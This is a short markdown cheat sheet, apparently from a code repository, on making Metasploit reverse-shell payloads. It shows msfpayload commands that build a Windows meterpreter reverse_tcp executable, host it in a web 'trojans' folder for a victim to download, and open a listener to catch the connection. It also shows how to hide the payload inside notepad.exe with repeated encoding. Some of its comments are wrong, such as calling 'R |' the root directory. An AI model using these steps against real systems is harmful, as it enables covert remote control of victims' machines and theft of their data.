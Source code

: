 Metasploit msfpayload
=====================

run in regular shell not in msfconsole

	$ msfpayload windows/meterpreter/reverse_tcp LHOST=[LOCALHOST] X > reverse_tcp.exe
			# X > reverse_tcp.exe; executable is being created

load executable on web server

	open new terminal
	$ apache2ctl restart
	$ mkdir /var/www/trojans
	$ cp reverse_tcp.exe /var/www/trojans

run exploit in msfconsole

	$ use exploit/multi/handler
	$ set PAYLOAD windows/meterpreter/reverse_tcp
	$ set LHOST [LOCALHOST]
	$ exploit

victim needs to visit [LOCALHOST]

#### Encoding existing executable 

	$ msfpayload windows/meterpreter/reverse_tcp LHOST=[LOCALHOST] R | msfencode -t exe -x \
      /root/Desktop/notepad.exe -c 10 -o notepad.exe 
			# -c wll encode 10 times 
			# -o is the output file
			# R |  is /root
	$ cp notepad.exe /var/www/trojans

Use msfconsole to start the payload handler

	msf> use exploit/multi/handler
	msf> set PAYLOAD windows/meterpreter/reverse_tcp
	msf> set LHOST [LOCALHOST]
	msf> exploit





